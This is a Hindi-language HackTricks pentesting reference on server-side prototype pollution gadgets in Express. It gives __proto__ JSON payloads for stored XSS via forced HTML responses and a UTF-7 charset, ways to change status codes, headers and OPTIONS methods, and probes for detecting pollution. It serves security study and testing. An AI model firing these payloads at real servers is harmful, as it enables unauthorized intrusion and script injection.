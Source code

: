 # Express प्रोटोटाइप प्रदूषण गैजेट्स

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर हमें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** का अनुसरण करें.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
## XSS प्रतिक्रियाएँ प्रदान करें

### JSON सामग्री-प्रकार को HTML में बदलें

एक Express ऐप में **JSON सामग्री प्रकार प्रतिक्रिया** का उपयोग करते हुए और JSON को प्रतिबिंबित करते हुए:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
इन मामलों में XSS सामान्यतः JSON content type के साथ संभव नहीं होता है। हालांकि, prototype pollution के साथ हम **Express को भ्रमित कर HTML response प्रदान करने के लिए मजबूर कर सकते हैं।** यह कमजोरी इस बात पर निर्भर करती है कि एप्लिकेशन **`res.send(obj)`** का उपयोग कर रहा है और application/json content type के साथ body parser का उपयोग कर रहा है।
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** और **`_body`** दोनों properties को **polluting** करके, Express को HTML content type **सर्व करने** और `_body` property को reflect करने का कारण बन सकता है, जिससे stored XSS हो सकता है।

### UTF7 रेंडर करें

Express को UTF-7 content **रेंडर करने के लिए** संभव है:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## सुरक्षित स्कैनिंग तकनीकें

### JSON स्पेसेस

निम्नलिखित PP JSON के अंदर के विशेषताओं में एक अतिरिक्त स्पेस जोड़ देगा जो कार्यक्षमता को नहीं तोड़ेगा:
```json
{"__proto__":{"json spaces": " "}}
```
तब परिलक्षित JSON इस प्रकार दिखेगा:
```json
{"foo":  "bar"} -- Note the extra space
```
### उजागर हेडर्स

निम्नलिखित PP गैजेट सर्वर को HTTP हेडर वापस भेजने के लिए प्रेरित करेगा: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
इसके लिए **CORS मॉड्यूल का इंस्टॉल होना आवश्यक है**

### **OPTIONS मेथड**

निम्नलिखित पेलोड के साथ, यह संभव है कि **OPTIONS प्रतिक्रिया से एक मेथड को छिपाया जा सके**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **स्थिति**

निम्नलिखित PP पेलोड का उपयोग करके **प्रतिपुष्टि स्थिति कोड** में परिवर्तन संभव है:
```json
{"__proto__":{"status":510}}
```
### त्रुटि

जब आप किसी प्रोटोटाइप को एक प्राइमिटिव जैसे कि स्ट्रिंग के साथ असाइन करते हैं, तो यह एक **no-op operation पैदा करता है क्योंकि प्रोटोटाइप एक ऑब्जेक्ट होना चाहिए**। यदि आप `Object.prototype` को ही प्रोटोटाइप ऑब्जेक्ट असाइन करने का प्रयास करते हैं, तो यह **एक अपवाद फेंक देगा**। हम इन दो व्यवहारों का उपयोग कर सकते हैं **यह पता लगाने के लिए कि प्रोटोटाइप प्रदूषण सफल था या नहीं**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### प्रतिबिंबित मूल्य

यदि एप्लिकेशन प्रतिक्रिया में एक ऑब्जेक्ट को प्रतिबिंबित कर रहा है, तो आप **अजीब नाम और `__proto__` वाला एक गुण** बना सकते हैं और यदि **केवल अजीब वाला गुण प्रतिबिंबित होता है**, तो संभव है कि वेब असुरक्षित है:
```json
{"hacktricks":"rocks","__proto__":"test"}
```
यदि Lodash या इसी तरह की लाइब्रेरी का उपयोग किया जाता है, तो आप **PP के माध्यम से एक संपत्ति सेट कर सकते हैं और उस ऑब्जेक्ट के अंदर** और यदि उस संपत्ति को प्रतिबिंबित नहीं किया जाता है तो इसका कारण यह है कि Lodash मौजूदा ऑब्जेक्ट को देखता है ताकि यह जांच सके कि क्या वह संपत्ति पहले से ही मर्ज किए गए ऑब्जेक्ट में मौजूद है:
```javascript
{"__proto__":{"a":"asd"},"a":"asd2","b":"dfg"}
// If only b is reflected then PP in Lodash
```
## विविध

### डॉट्स की अनुमति

Express में एक विकल्प है जो आपको **क्वेरी स्ट्रिंग पैरामीटर्स से ऑब्जेक्ट्स बनाने की अनुमति देता है**।\
आप निश्चित रूप से इसका उपयोग एक बग **चेन** में कर सकते हैं ताकि **प्रोटोटाइप प्रदूषण संवेदनशीलता** का शोषण कर सकें।
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` Node में एक ऑब्जेक्ट बनाता है।**

## संदर्भ

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर हमें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **का पालन करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
